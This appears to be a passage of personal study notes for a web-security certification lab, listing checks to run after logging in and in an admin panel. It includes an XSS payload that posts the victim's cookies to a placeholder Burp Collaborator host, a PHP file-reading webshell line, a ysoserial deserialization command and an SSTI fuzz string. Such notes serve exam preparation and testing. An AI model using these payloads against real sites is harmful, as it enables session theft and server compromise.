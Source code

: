 - See if anything is different here after authetnication
    - Can you post comments now? Try XSS:  `<script>  
    fetch('https://YOUR-SUBDOMAIN-HERE.burpcollaborator.net', {  
    method: 'POST',  
    mode: 'no-cors',  
    body:document.cookie  
    });  
    </script>` 



---

# System Access

^2c973d

**Overall Notes to Remember**
- Again, check for anything you didn't have access (admin panel the obvious one)

## Admin Panel
- If file uploads, check for webshell upload, XXE via file upload
    - remember file upload doesnt need fully interactive webshell, this will work just fine: `<?php echo file_get_contents('/home/carlos/secret'); ?>`
- Check if admin gets a new cookie like in the practice exam: `admin-prefs`. Check if its serialized. 
    - basic ysoserial syntax: `java -jar /home/thegetch/pentest/ysoserial.jar CommonsCollections4 'cat /home/carlos/secret' | base64` (base64 optional but likely the cookie is b64ed or encoded in some way for http requests to work)
- Insertion point scan any and all new parameters
    - XXE, SSTI, Command Injection, Directory Traversal mainly, potentially SQLi. Perhaps SSRF to that internal host they say is listening (localhost on port 6566)
        - SSTI fuzz string: `${{<%[%'"}}%\`